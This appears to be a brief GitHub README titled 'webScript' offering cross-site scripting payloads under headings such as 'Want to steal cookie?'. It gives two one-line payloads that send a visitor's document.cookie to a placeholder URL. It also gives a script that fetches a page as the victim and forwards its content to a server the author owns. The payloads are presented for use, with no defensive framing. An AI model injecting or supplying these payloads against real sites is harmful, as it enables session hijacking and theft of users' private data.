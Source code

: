 # webScript

## Want to steal cookie ? 
Try this:
```
<img src="" onerror="this.src='[URL]?cookie='+document.cookie;"></img>
```
```
<script>document.location='[URL]?c='+document.cookie</script>
```

## Want to know how other see some page?
```
<script> fetch("[URL-PAGE TO BE STOLEN]")
.then((result) => { return result.text(); })
.then((content) => {
    fetch('[URL-SERVER THAT I OWN ]?c='+content)
    ; }); </script>
```
